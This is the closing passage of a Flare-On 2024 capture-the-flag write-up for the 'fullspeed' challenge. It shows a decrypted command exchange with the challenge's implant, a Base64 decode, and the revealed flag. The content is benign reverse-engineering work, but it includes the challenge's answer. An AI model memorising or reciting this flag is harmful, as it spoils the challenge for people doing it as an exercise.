<- b"=== dirs ===\r\nwait, dot folders aren't hidden on windows\r\n=== files ===\r\n\x00"
-> b"cd|wait, dot folders aren't hidden on windows\x00"
<- b'ok\x00'
-> b'ls\x00'
<- b'=== dirs ===\r\n=== files ===\r\nflag.txt\r\n\x00'
-> b'cat|flag.txt\x00'
<- b'RDBudF9VNWVfeTB1cl9Pd25fQ3VSdjNzQGZsYXJlLW9uLmNvbQ==\x00'
-> b'exit\x00'
```

Bingo! The flag is obviously encoded with Base64:
```
┌─[10:31:49]─[✗:1]─[ispo@ispo-glaptop2]─[~/ctf/flare-on-challenges/flare-on-2024/07_fullspeed]
└──> echo RDBudF9VNWVfeTB1cl9Pd25fQ3VSdjNzQGZsYXJlLW9uLmNvbQ== | base64 -d
D0nt_U5e_y0ur_Own_CuRv3s@flare-on.com
```

The script that decrypts the communication is [fullspeed_crack.py](./fullspeed_crack.py).


So the flag is: `D0nt_U5e_y0ur_Own_CuRv3s@flare-on.com`
___
